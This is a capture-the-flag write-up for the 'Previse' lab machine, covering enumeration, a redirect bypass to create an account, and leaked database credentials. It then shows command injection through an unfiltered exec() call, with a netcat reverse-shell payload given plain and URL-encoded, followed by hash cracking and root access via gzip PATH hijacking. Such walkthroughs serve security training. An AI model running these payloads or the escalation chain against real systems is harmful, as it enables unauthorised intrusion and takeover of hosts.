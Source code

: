 # Previse

- Target Machine: 10.10.11.104

## Enumeration

### nmap scan

```bash
# Nmap 7.92SVN scan initiated Thu Sep  9 10:33:26 2021 as: nmap -sC -sV -oN nmap/initial.log 10.10.11.104
Nmap scan report for 10.10.11.104
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  9 10:33:51 2021 -- 1 IP address (1 host up) scanned in 25.70 seconds
```

### gobuster scan

```bash
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/footer.php           (Status: 200) [Size: 217]
/header.php           (Status: 200) [Size: 980]
/favicon.ico          (Status: 200) [Size: 15406]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 302) [Size: 2801] [--> login.php]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/status.php           (Status: 302) [Size: 2968] [--> login.php]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/nav.php              (Status: 200) [Size: 1248]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/.htgroup             (Status: 403) [Size: 277]
/wp-forum.phps        (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
/.htaccess.old        (Status: 403) [Size: 277]
/.htacess             (Status: 403) [Size: 277]
```

The `nav.php` page is freely accessible without logging in. This page contains a menu with some links that redirect to other pages where however logging in is necessary.

### Burpsuite analysis

Even thought we get redirected to `login.php` while checking these pages, we can use burpsuite __HTTP history__ to check the page contents, due to the page being loaded for a short amount of time before redirecting.

As we can see, we can easily check the contents of the `accounts.php` page using this method:

![Accounts contents](.img/acc1.png)

Scrolling to the contents, we reach a form with some POST data where we can create an account:

![Account creator](.img/acc2.png)

We can [copy this form](scripts/account_creator.html), forging our own POST request to the server, creating the account `testuser : testuser`
We can now login as testuser and access the `files.php` page, finding a link that lets us download a file named `sitebackup.zip`

In the file `config.php` we can find some credentials:

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

## Accessing the machine

By looking through the contents of the logs.php page, we can see an exec function being called including unfiltered POST data, meaning we can abuse this to inject our own command.

```php
/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```

Using Burpsuite, we can intercept the POST request sent to this page from the file_logs.php page and edit it with our URL encoded command to generate a reverse shell.
__ATTENTION__: first you must start a netcat listener on your machine

- PAYLOAD: ; nc {your_ip} 1234 -e /bin/bash

- URL ENCODED PAYLOAD: %3b%20%6e%63%20%31%30%2e%31%30%2e%31%34%2e%31%39%36%20%31%32%33%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68

![Accounts contents](.img/inj.png)

Now we can upgrade our shell by running `/usr/bin/script -qc /bin/bash /dev/null`

### Accessing the MySQL database

Since we know the MySQL root user's password, we can access it by running `mysql -u root -p previse`

We can list all the user passwords by running the query 'SELECT * FROM accounts', finding m4lwhere's password: `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

We can now use John the Ripper to crack this hash and find the password, which is: `ilovecody112235!`. We can now SSH into the machine as m4lwhere and get the user flag

## Priviledge Escalation

Using `sudo -l` we can see the command priviledges of the user m4lwhere.

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh

m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

As we can see, the script access_backup.sh calls gzip using a relative path and not an absolute one, meaning we can create a fake gzip script which will be run instead of the intended one, spawning a root shell

```
m4lwhere@previse:~$ export PATH=/tmp:$PATH
 
m4lwhere@previse:~$ cd /tmp/

m4lwhere@previse:/tmp$ echo /bin/bash > gzip

m4lwhere@previse:/tmp$ chmod +x gzip 

m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh

root@previse:/tmp# id
```

__ATTENTION__: since the output of gzip is being redirected to `/var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz`, we can't actually read what is going on the root shell, but we can still run stuff

```
root@previse:/tmp# cp /root/root.txt /tmp

root@previse:/tmp# chmod 777 root.txt 

root@previse:/tmp# exit
exit

root@previse:/tmp# exit
exit

m4lwhere@previse:/tmp$ cat root.txt 
```

__ATTENTION__: PLEASE remember to delete the copied root.txt file after getting the flag or else other users that are trying to solve the challenge will also be able to read it. PLEASE don't ruin other people's experience by being greedy. Thank you!
